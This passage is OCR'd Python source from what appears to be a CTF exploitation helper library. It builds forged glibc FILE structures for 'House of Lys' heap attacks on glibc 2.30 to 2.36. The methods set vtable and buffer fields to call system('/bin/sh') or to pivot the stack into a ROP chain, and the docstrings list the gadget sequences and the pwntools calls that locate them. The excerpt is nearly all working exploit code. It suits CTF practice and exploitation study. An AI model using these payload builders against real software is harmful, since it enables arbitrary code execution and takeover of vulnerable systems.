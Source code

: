 ```python
            _IO_obstack_jumps_addr: Address of _IO_obstack_jumps
            fp_heap_addr: The heap addr that replace original _IO_list_all or chain
        '''
        assert context.bits == 64, "only support amd64!"
        self._IO_read_base = 1
        self._IO_write_base = 0
        self._IO_write_ptr = 1
        self._IO_write_end = 0
        self._IO_buf_base = system_addr
        self._IO_save_base = fp_heap_addr + 0xa0
        self._IO_backup_base = 1
        self._wide_data = 0x68732f6e69622f
        self.vtable = _IO_obstack_jumps_addr + 0x20
        return self.__bytes__() + pack(fp_heap_addr, 64)

    def house_of_Lys_stack_pivoting_when_exit_between_2_30_and_2_36(self,
                                                                    fp_heap_addr : int,
                                                                    _IO_obstack_jumps_addr : int, 
                                                                    rop_payload : str or bytes,
                                                                    magic_gadget_one_addr : int,
                                                                    magic_gadget_two_addr : int,
                                                                    magic_gadget_three_addr : int):
        '''
        House_of_Lys to execute ROP chain by stack pivoting:

        Args:
            fp_heap_addr(int): The heap addr that replace original _IO_list_all or chain
            _IO_obstack_jumps_addr(int): Address of _IO_obstack_jumps
            rop_payload(bytes or str): The ROP chain you wanner execute
            magic_gadget_one_addr(int): Address of "mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20]"
            magic_gadget_two_addr(int): Address of "mov rsp, rdx; ret"
            magic_gadget_three_addr(int): Address of "add rsp, 0x30; mov rax, r12; pop r12; ret"

        Notices: 
            1. The size of fp_heap must be exceeded  0x128+len(rop_payload)! If not, you can use [0xe0:] and payload_replace to set ropchain in other memory
            2. We can use the following code to find gadgets:
                libc.search(asm("mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20]")).__next__()
                libc.search(asm("mov rsp, rdx; ret")).__next__()
                libc.search(asm("add rsp, 0x30; mov rax, r12; pop r12; ret")).__next__()
        '''
        assert context.bits == 64, "only support amd64!"
        rop_chain_addr = fp_heap_addr + 0xe8
        self._IO_read_base = 1
        self._IO_write_base = 0
        self._IO_write_ptr = 1
        self._IO_write_end = 0
        self._IO_buf_base = magic_gadget_one_addr
        self._IO_save_base = rop_chain_addr
        self._IO_backup_base = 1
        self.vtable = _IO_obstack_jumps_addr + 0x20
        payload = flat(
            {
            0x0:self.__bytes__() + pack(fp_heap_addr, 64),
            0xe8:{
                0x0:magic_gadget_three_addr,
                0x8:rop_chain_addr,    #Maybe sometimes you need to replace this address
                0x20:magic_gadget_two_addr,
                0x40:rop_payload
            }
            }
```